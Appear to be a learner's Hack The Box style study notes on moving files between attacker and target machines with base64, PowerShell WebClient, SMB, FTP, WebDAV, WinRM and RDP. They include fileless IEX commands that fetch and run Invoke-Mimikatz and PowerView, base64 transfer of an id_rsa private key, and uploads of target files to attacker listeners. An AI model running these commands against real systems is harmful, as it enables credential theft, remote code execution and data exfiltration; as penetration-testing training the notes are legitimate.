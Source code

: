 ### Base 64 transfer file without actually downloading anything

Check HASH of original file 
```shell
md5sum id_rsa
```
Encode to base 64 
```shell
cat id_rsa |base64 -w 0;echo
```
Copy and paste across, decode with powershell

```powershell
PS C:\htb> [IO.File]::WriteAllBytes("<dir to write to", [Convert]::FromBase64String("<base 64>"))
```

# Downloads
## PowerShell Web Downloads
[Using System.Net.WebClient](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0)

|**Method**|**Description**|
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)|Downloads a String from a resource without blocking the calling thread.|

```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

```powershell
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

### Fileless
Download and execute directly. 
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```powershell
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### Slow Method:
```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### Common PowerShell errors

#### Internet Explorer first launch has not been configured 
```powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX
```

####
Certificate Not Trusted
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```


## SMB Downloads

Create an SMB Share 
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
Copy the file 
```cmd-session
copy \\<local>\<file>
```

Security Policy Issue?
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```cmd
net use n: \\192.168.220.133\share /<user>:<test> <folder>
```

## FTP Downloads 
Set Up FTP server 
```shell
sudo pip3 install pyftpdlib
```

```shell
sudo python3 -m pyftpdlib --port 21
```

```powershell
(New-Object(Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```
### Command File 

```shell
echo open <ip> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET <file> >> ftpcommand.txt
echo bye >> ftpcommand.txt
```
```cmd-session
ftp -v -n -s:ftpcommand.txt
```

# Upload
### Base 64 
```powershell
[Convert]::ToBase64String((Get-Content -path "<path>" -Encoding byte))
```

```shell
echo <flie | base64 -d > <filename>
```

```shell
md5sum hosts 
```

### Web Uploads 
```shell
pip3 install uploadserver
```
```shell
python3 -m uploadserver
```

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Invoke-FileUpload -Uri http://<ip>:8000/upload -File <path to file>
```

#### Base 64 uploads
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<path to file>))
```

```shell
nc -lvnp 8000
```

```powershell
Invoke-WebRequest -Uri http://<ip>:8000/ -Method POST -Body $b64
```

### SMB Uploads 
[SMB is often prevented from leaving local network](https://support.microsoft.com/en-us/topic/preventing-smb-traffic-from-lateral-connections-and-entering-or-leaving-the-network-c0541db7-2244-0dce-18fd-14a3ddeb282a)

SMB over HTTP with WebDav.WebDAV
```shell
sudo pip install wsgidav cheroot
```
```shell
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
attempt to connect to share 
```cmd-session
dir \\<ip>\Directory
```
Upload Files 
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
### FTP Uploads 

```shell
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
New-Object Net.WebClient).UploadFile('ftp://<ip>/ftp-hosts', 'path to file')
```

#### Command File
```shell
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
# [PowerShell Remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2)

By default creates HTTP and HTTPS listeners.

Confirm WinRM port 5985 is Open on Computer. 
```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```
Create powershell remote session 
```powershell
$Session = New-PSSession -ComputerName DATABASE01
```
Attacker to Target:
```powershell
Copy-Item -Path <local machine file path> -ToSession $Session -Destination <output>
```
Target to Attacker 
```powershell
Copy-Item -Path "<file path>" -Destination C:\ -FromSession $Session
```


# RDP
## Shared Folders
### rdesktop 
```shell
rdesktop <ip> -d HTB -u <user> -p '<password>' -r disk:linux='<folder loc>'
```

### xfreerdp
```shell
xfreerdp /v:<ip> /d:HTB /u:<user> /p:'<passsword>' /drive:linux,<folder loc>
```
